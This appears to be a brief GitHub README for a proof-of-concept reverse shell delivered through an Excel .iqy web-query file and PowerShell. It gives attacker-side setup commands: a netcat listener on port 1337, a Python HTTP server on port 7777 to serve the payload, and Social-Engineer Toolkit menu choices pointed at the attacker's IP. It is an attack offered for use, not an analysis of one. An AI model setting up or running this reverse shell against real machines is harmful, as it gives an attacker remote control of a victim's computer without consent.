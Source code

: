 # iqy-powershell-reverse-shell
PoC for iqy powershell reverse shell

nc -nvlp 1337


python -m SimpleHTTPServer 7777

setoolkit 1,9,2 port 1337 no listener. IP of your box.
